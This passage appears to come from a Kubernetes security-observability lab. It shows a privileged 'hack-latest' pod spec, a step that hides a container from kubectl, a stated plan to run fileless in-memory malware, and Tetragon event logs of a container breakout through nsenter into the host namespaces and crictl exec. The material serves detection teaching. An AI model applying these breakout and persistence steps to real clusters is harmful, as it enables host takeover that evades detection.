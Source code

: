   containers:
  - name: hack-latest
    image: sublimino/hack:latest
    command: ["/bin/sh"]
    args: ["-c", "while true; do sleep 10;done"]
    securityContext:
      privileged: true
EOF

crictl ps

In termincal 3: pod hack-latest doesn't show:
kubectl get pods --all-namespaces

In terminal 1:
root@server:~# kubectl exec -n kube-system -ti daemonset/tetragon -c tetragon --   tetra getevents -o compact --pods sith-infiltrator
💥 exit    default/sith-infiltrator /usr/local/bin/crictl ps 0 🛑 CAP_SYS_ADMIN


Execute a malicious python script in memory:
We have persisted the breakout by spinning up an invisible container, now we can download and execute a malicious script in memory that never touches disk.
For this we are using a simple python script as a fileless malware which is almost impossible to detect by using traditional userspace tools.

Monitor the generated Security Observability events T1:
root@server:~# kubectl exec -n kube-system -ti daemonset/tetragon -c tetragon -- \
  tetra getevents -o compact --pods sith-infiltrator
🚀 process default/sith-infiltrator /bin/bash              🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/nsenter -t 1 -a bash 🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter cgroup         🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter ipc            🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter uts            🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter net            🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter pid            🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter mnt            🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter time           🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/bash          🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/local/bin/crictl ps --name hack-latest --output json 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/jq -r .containers[0].id 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/local/bin/crictl ps --name hack-latest --output json 0 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/jq -r .containers[0].id 0 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/bash  0 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/local/bin/crictl ps --name hack-latest --output json 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/jq -r .containers[0].id 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/local/bin/crictl ps --name hack-latest --output json 0 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/jq -r .containers[0].id 0 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/bash  0 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/local/bin/crictl exec -it 2a39e8d112cacdff4a302e7311a5c861ba7ad0e479ff770fff051d623d7db290 /bin/bash 🛑 CAP_SYS_ADMIN
🔌 connect default/sith-infiltrator /usr/local/bin/crictl tcp 127.0.0.1:40172 -> 127.0.0.1:37139 🛑 CAP_SYS_ADMIN
